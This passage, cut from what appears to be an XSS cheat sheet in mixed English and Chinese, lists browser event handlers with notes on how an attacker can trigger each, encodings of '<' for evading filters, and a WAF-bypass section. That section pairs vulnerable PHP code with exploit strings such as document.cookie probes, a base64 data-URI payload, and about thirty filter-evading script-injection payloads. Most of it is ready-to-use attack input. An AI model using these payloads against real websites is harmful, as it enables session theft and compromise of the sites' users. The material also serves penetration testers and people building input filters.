73. `onPause()` (the onpause event fires on every element that is active when the timeline pauses, including the body element)
74. `onPopState()` (fires when user navigated the session history)
75. `onProgress()` (attacker would use this as a flash movie was loading)
76. `onPropertyChange()` (user or attacker would need to change an element property)
77. `onReadyStateChange()` (user or attacker would need to change an element property)
78. `onRedo()` (user went forward in undo transaction history)
79. `onRepeat()` (the event fires once for each repetition of the timeline, excluding the first full cycle)
80. `onReset()` (user or attacker resets a form)
81. `onResize()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
82. `onResizeEnd()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
83. `onResizeStart()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
84. `onResume()` (the onresume event fires on every element that becomes active when the timeline resumes, including the body element)
85. `onReverse()` (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
86. `onRowsEnter()` (user or attacker would need to change a row in a data source)
87. `onRowExit()` (user or attacker would need to change a row in a data source)
88. `onRowDelete()` (user or attacker would need to delete a row in a data source)
89. `onRowInserted()` (user or attacker would need to insert a row in a data source)
90. `onScroll()` (user would need to scroll, or attacker could use the `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element’s ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format (ASF) file, played  by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag,  processes script commands embedded in the ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified point on the element’s  segment time line and begins playing from that point. The segment  consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

#### Character Escape Sequences

> All the possible combinations of the character “<” in HTML and JavaScript. Most of these won’t render out of the box, but many of them can get rendered in certain circumstances as seen above.

    <
    %3C
    &lt
    &lt;
    &LT
    &LT;
    &#60
    &#060
    &#0060
    &#00060
    &#000060
    &#0000060
    &#60;
    &#060;
    &#0060;
    &#00060;
    &#000060;
    &#0000060;
    &#x3c
    &#x03c
    &#x003c
    &#x0003c
    &#x00003c
    &#x000003c
    &#x3c;
    &#x03c;
    &#x003c;
    &#x0003c;
    &#x00003c;
    &#x000003c;
    &#X3c
    &#X03c
    &#X003c
    &#X0003c
    &#X00003c
    &#X000003c
    &#X3c;
    &#X03c;
    &#X003c;
    &#X0003c;
    &#X00003c;
    &#X000003c;
    &#x3C
    &#x03C
    &#x003C
    &#x0003C
    &#x00003C
    &#x000003C
    &#x3C;
    &#x03C;
    &#x003C;
    &#x0003C;
    &#x00003C;
    &#x000003C;
    &#X3C
    &#X03C
    &#X003C
    &#X0003C
    &#X00003C
    &#X000003C
    &#X3C;
    &#X03C;
    &#X003C;
    &#X0003C;
    &#X00003C;
    &#X000003C;
    \x3c
    \x3C
    \u003c
    \u003C


**常用属性：**
  src
  action
  href
  data
  content 
  anytag

  **javascript弹窗函数：**
  alert()
  confirm()
  prompt() 
  write()
  setTimeout()





- ### WAF(⑧懂)

**Stored XSS**

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

**Reflected XSS in Javascript**

```
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

**DOM-based XSS**

```
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

**XSS via request Redirection**

- Vulnerable code:

```
...
header('Location: '.$_GET['param']);
...
```

As well as:

```
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```

- This request will not pass through the WAF:

```
/?param=<javascript:alert(document.cookie>)
```

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

```
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

例：

> - `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
> - `<Video> <source onerror = "javascript: alert (XSS)">`
> - `<Input value = "XSS" type = text>`
> - `<applet code="javascript:confirm(document.cookie);">`
> - `<isindex x="javascript:" onmouseover="alert(XSS)">`
> - `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
> - `"><img src="x:x" onerror="alert(XSS)">`
> - `"><iframe src="javascript:alert(XSS)">`
> - `<object data="javascript:alert(XSS)">`
> - `<isindex type=image src=1 onerror=alert(XSS)>`
> - `<img src=x:alert(alt) onerror=eval(src) alt=0>`
> - `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
> - `<iframe/src="data:text/html,<svg onload=alert(1)>">`
> - `<meta content=" 1  ; JAVASCRIPT: alert(1)" http-equiv="refresh"/>`
> - `<svg><script xlink:href=data:,window.open('https://www.google.com/')></script`
> - `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
> - `<iframe src=javascript:alert(document.location)>`
> - `<form><a href="javascript:\u0061lert(1)">X`
> - `</script><img/*%00/src="worksinchrome:prompt(1)"/%00*/onerror='eval(src)'>`
> - `<style>//*{x:expression(alert(/xss/))}//<style></style>`
> - On Mouse Over
> - `<img src="/" =_=" title="onerror='prompt(1)'">`
> - `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>ClickMe`
> - `<script x> alert(1) </script 1=2`
> - `<form><button formaction=javascript:alert(1)>CLICKME`
> - `<input/onmouseover="javaSCRIPT:confirm(1)"`
> - `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
> - `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `













